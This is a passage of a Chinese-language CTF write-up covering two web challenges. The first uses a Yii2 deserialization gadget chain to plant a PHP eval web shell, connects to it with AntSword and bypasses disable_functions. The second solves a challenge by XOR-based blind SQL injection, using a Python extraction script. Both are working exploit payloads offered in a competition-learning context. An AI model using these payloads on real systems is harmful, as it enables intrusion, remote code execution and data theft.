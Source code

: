 namespace yii\db{
    use Faker\Generator;

    class BatchQueryResult{
        private $_dataReader;
    
        public function __construct(){
            $this->_dataReader = new Generator;
        }
    }
}
namespace{
    echo base64_encode(serialize(new yii\db\BatchQueryResult));
}
?>
随后生成payload传进去：/index.php?r=site/about&message=TzoyMzoieWlpXGRiXEJhdGNoUXVlcnlSZXN1bHQiOjE6e3M6MzY6IgB5aWlcZGJcQmF0Y2hRdWVyeVJlc3VsdABfZGF0YVJlYWRlciI7TzoxNToiRmFrZXJcR2VuZXJhdG9yIjoxOntzOjEzOiIAKgBmb3JtYXR0ZXJzIjthOjE6e3M6NToiY2xvc2UiO2E6Mjp7aTowO086MjE6InlpaVxyZXN0XENyZWF0ZUFjdGlvbiI6Mjp7czoxMToiY2hlY2tBY2Nlc3MiO3M6NjoiYXNzZXJ0IjtzOjI6ImlkIjtzOjczOiJmaWxlX3B1dF9jb250ZW50cygiL3Zhci93d3cvaHRtbC93ZWIvMS5waHAiLCI8P3BocCBldmFsKFwkX1BPU1RbMTExXSk7Iik7Ijt9aToxO3M6MzoicnVuIjt9fX19
传去有一个报错但是访问一下1.php是成功的。直接蚁剑一把梭，连上马，发现flag在根目录，但是大意了，没有权限，这里采用一个插件可以绕过（disabled_functions)然后读一下，就出了flag

flag{e5f2f9af-6e51-4e03-beee-861f3aae4c8a}

## web3 websitemanger

这道题是道注入题，是队友直接做出来，我没任何参与，但是复现出来，也在这里写上来。

跑一下sqlmap,发现两个参数：username password还有/image.php下的id

尝试注入，但前两个都不是，转换目标对id下手

这里卡了很久才发现是异或注入，构造payload：/image.phpid=1^(ascii(substr((select(database())),1,1))>1)^1

美滋滋有回显，改变参数：/image.php?id=1^(ascii(substr((select(database())),1,1))>99)^1

这次没回显，说明库里第一位是c，尝试获取第二位

/image.php?id=1^(ascii(substr((select(database())),2,1))>1)^1

发现117没有回显，第二位为t，由此可以尝试类推第三位为f，接下来第四位始终没有回显，说明只有三位，且库名就是ctf，知道了库名直接爆破：

import requests
import time
url = "http://eci-2zefme7yqvztqdsonszy.cloudeci1.ichunqiu.com/image.php?id=1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema='ctf')),{0},1))>{1})^1" 
word=""
for i in range(1,1000):
    l = 32
    h = 128
    mid = (l + h)
    while (l < h):
        nurl=url.format(i,mid)
        r=requests.get(url=nurl)
        if 'JFIF' in r.text:
            l = mid + 1
        else:
            h = mid
        mid = (l + h) // 2
        time.sleep(0.1)
    word += chr(mid)
    print(word)
print(word)
（队友的脚本）
